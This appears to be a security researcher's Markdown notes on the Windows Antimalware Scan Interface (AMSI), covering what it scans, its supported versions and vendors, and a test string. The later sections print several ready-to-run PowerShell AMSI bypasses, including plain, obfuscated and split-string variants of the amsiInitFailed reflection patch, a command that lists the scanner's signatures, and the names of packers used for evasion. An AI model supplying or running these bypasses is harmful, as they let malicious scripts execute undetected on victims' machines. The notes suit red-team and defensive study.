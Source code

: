 # AMSI (Anti-Malware Scanning Interface)

> WARNING : Amsi loads into powershell, with dotner amsi integrates with the clr which loads AMSI on demand.

AmsiScanBuffer
AmsiScanString
AssemblyLoad

Show api calls made (user to kernel/syscall)

Languages
-- -
- powershell (scripting)
- vb.net (scripting)
- c# (compiled)
- f# (compiled)


![dotnet](./images/dotnet.jpeg)

AMSI
-- -

Introduced in June 2015.

The Windows Antimalware Scan Interface (AMSI) is a versatile interface standard that allows your applications and services to integrate with any antimalware product that's present on a machine. AMSI provides enhanced malware protection for your end-users and their data, applications, and workloads.  

AMSI is agnostic of antimalware vendor; it's designed to allow for the most common malware scanning and protection techniques provided by today's antimalware products that can be integrated into applications. It supports a calling structure allowing for file and memory or stream scanning, content source URL/IP reputation checks, and other techniques.

The AMSI feature is integrated into these components of `Windows 10`:
- User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
- PowerShell `v5` (scripts, interactive use, and dynamic code evaluation)
- Windows Script Host (Wscript.exe and Cscript.exe) (scripts and dynamic 
- Office365 (JavaScript/VBA)  
- Windows Management Instrumentation (WMI)
- .Net Framework 4.8 (Scanning for all assemblies) - ***NEW***

> **Runtime – Antimalware Scanning for All Assemblies** : In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.

[https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/](https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/)

.NET Framework 4.8 on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.

In its default configuration, macros are scanned at runtime via AMSI except in the following scenarios:

- Documents opened while macro security settings are set to “Enable All Macros”
- Documents opened from trusted locations
- Documents that are trusted documents
- Documents that contain VBA that is digitally signed by a trusted publisher

[https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps](https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)

>Runtime – Antimalware Scanning for All Assemblies
>In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.
>
>.NET Framework 4.8 (released April 18th on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.
>
>**LINK** : [https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/](https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/)
>
>**LINK** : [https://en.wikipedia.org/wiki/.NET_Framework_version_history](https://en.wikipedia.org/wiki/.NET_Framework_version_history)

![image](./images/amsi7archi.jpg)

Supported OS
---
- Windows 10 PRO/ENTERPRISE and Windows Server 2016
- Windows Server 2019

Supported 3rd party Antivirus/EDR vendors
---
- Windows Defender
- Carbon Black Defense
- Crowdstrike Falcon
- Kaspersky
- McAfee Endpoint Security 10.6.0 
- Sophos
- Symantec (v14.3 and later)

**LINK** : [https://github.com/subat0mik/whoamsi](https://github.com/subat0mik/whoamsi)


To check which version of .net and the CLR is installed open a powershell prompt and type the following:

```code
$psversiontable
[System.Reflection.Assembly]::GetExecutingAssembly().ImageRuntimeVersion
$dotnet = [System.Reflection.Assembly]::Load("mscorlib")
$dotnet.GetName().Version
```

![image](./images/dotnetversion.jpg)

Check Powershell installed on the system:

```yaml
(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngine -Name PowerShellVersion).PowerShellVersion
```

AMSITEST
---

```yaml
It '"Antimalware Scan Interface" is working' {
    # AMSI test string 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
    # (in the following as an obfuscated string)
    # must throw an error if executed (blocked by AMSI)
    $TestString = "FHJ+YHoTZ1ZARxNgUl5DX1YJEwRWBAFQAFBWHgsFAlEeBwAACh4LBAcDHgNSUAIHCwdQAgALBRQ="
    $Bytes = [Convert]::FromBase64String($TestString)
    $String = -join ($bytes | ForEach-Object { [char]($_ -bxor 0x33)})
    { Invoke-Expression -Command $String } | Should Throw
}
```

AMSIBYPASS
---

Works on 1803 and before

> This bypass does not require administrator rights!!!

```yaml
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic, Static').SetValue($null,$true)
```

Works on 1903, 1909 and before

```yaml
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c, ' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

List `dirty` words: 

```yaml
[ScriptBlock].GetField('signatures', 'NonPublic, Static').GetValue($null)
```

----

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Patch-the-providers-DLL-of-Microsoft-MpOav.dll

check which processes have amsi.dll loaded

Get-Process | where {$_.modules.ModuleName -eq 'Amsi.dll'}


Los er door:

```powershell
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b


And finally AMSI.FAIL

-----
# dotnet packing

ConfuserEx
Babel

----
https://github.com/pracsec/AmsiScanner/tree/main/src

